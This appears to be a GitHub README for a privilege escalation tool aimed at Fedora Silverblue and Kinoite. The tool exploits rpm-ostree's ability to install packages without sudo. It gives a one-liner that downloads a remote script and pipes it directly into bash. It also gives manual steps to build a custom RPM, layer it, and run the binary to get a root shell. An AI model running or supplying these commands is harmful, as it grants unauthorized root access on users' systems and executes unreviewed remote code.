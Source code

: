 A privilege escalation tool for Fedora immutable desktops (Silverblue, Kinoite, etc.), using the fact that `rpm-ostree` doesn't need `sudo`.

This is considered intended behavior: https://discussion.fedoraproject.org/t/76173/2, https://github.com/coreos/rpm-ostree/issues/745, https://github.com/coreos/rpm-ostree/pull/825

## One-Liner
```
bash <(curl https://raw.githubusercontent.com/rohanssrao/silverblue-privesc/main/privesc.sh)
```

## Manual

**Requirements:**

```bash
dnf install rpmdevtools gcc glibc-static
```

**Building:**

```bash
rpmbuild --bb --define "_rpmdir $(pwd)" --define "_rpmfilename privesc.rpm" privesc.spec
```
This generates `privesc.rpm` in the current directory.

**Usage:**

```bash
# Layer package
rpm-ostree install privesc.rpm
# Enter root shell
"$(ls -td /ostree/deploy/fedora/deploy/*/ | head -1)"/usr/bin/privesc
```
